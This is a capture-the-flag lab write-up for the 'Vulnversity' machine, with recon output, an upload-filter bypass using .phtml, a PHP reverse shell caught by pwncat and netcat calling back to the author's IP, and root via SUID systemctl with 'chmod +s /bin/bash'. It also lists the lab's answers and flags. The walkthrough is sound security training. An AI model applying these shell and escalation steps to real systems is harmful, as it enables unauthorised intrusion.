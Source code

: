 # Vulnversity

## Nmap scan

```
Nmap 7.80 scan initiated Tue Mar 30 14:34:10 2021 as: nmap -sC -sV -vv -oN nmap/first_scan 10.10.155.233
Nmap scan report for 10.10.155.233
Host is up, received conn-refused (0.037s latency).
Scanned at 2021-03-30 14:34:11 BST for 26s
Not shown: 994 closed ports
Reason: 994 conn-refused
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack vsftpd 3.0.3
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 56442/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 32071/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 46702/udp): CLEAN (Failed to receive data)
|   Check 4 (port 48133/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-03-30T09:34:33-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-30T13:34:33
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 30 14:34:37 2021 -- 1 IP address (1 host up) scanned in 26.86 seconds

```

**Questions**

    1. Scan the box, how many ports are open?

6

    2. What version of the squid proxy is running on the machine?

3.5.12

    3. How many ports will nmap scan if the flag -p-400 was used?

400

    4. Using the nmap flag -n what will it not resolve?

DNS

    5. What is the most likely operating system this machine is running?

Ubuntu

    6. What port is the web server running on?

3333

Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

(Check the file `all_ports` in nmap directory)

## Gobuster

Let's do a scan with `gobuster -u http://10.10.155.233:3333/ -w /opt/wordlist/directory-list-2.3-medium.txt`

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.155.233:3333/
[+] Threads      : 10
[+] Wordlist     : /opt/wordlist/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2021/03/30 14:36:22 Starting gobuster
=====================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

For completeness I will also run `nikto -h http://10.10.155.233:3333/`

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.155.233
+ Target Hostname:    10.10.155.233
+ Target Port:        3333
+ Start Time:         2021-03-30 14:36:55 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x80f6 0x58f01dcd2b575 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to the /images directory. The value is "http://127.0.1.1/images/".
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3092: /internal/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-03-30 14:40:57 (GMT1) (242 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

**Questions**


    1. What is the directory that has an upload form page?

`/internal/`

## Compromise the webserver

**Questions**

    1. Try upload a few file types to the server, what common extension seems to be blocked?

`.php`

Use burpsuite to fuzz the upload form, using `Seclists/Fuzzing/extensions-most-common-fuzz.txt` found [here](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing "Github"). Examining the responses shows that `.phtml` is a valid extension.

    2. Run this attack, what extension is allowed?

`.phtml`

Downloading a PHP reverse shell and modifying so that the reverse shell points to my IP, I can begin a reverse shell listener using pwncat. Pwncat can be used to create respawning reverse shells. In this case I also have a netcat listener waiting on port 5556 to catch the other connection. Generally I find netcat shells to be easier to stabilise.

`pwncat -l 5555 --self-inject /bin/bash:10.11.32.89:5556 --reconn-wait 1 -vv`

`nc -lnvp 5556`

Now the file renamed to `php_revshell.phtml` is uploaded to the server, and a little manual enumeration is done to find out where it has been uploaded (`http://10.10.155.233:3333/internal/uploads/php_revshell.phtml). Executing this causes pwncat to receive a reverse shell and spawn a second netcat shell back to my machine.

    3. What is the name of the user who manages the webserver?

Bill

    4. What is the user flag?

8bd7992fbe8a6ad22a63361004cfcedb

## Privilege Escalation

**Questions**

    1. On the system, search for all SUID files. What file stands out?

`/bin/systemctl`

Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?

    2. Become root and get the last flag (/root/root.txt)

a58ff8579f0a9270368d33a9966c7fd5

Done through using [Gtfobins](https://gtfobins.github.io/gtfobins/systemctl/ "GTFOBins") to establish how to escalate. I can run any command from within this service as the root user. Running the command - `chmod +s /bin/bash` - allows bash to be invoked with `-p` allowing root permissions to be kept.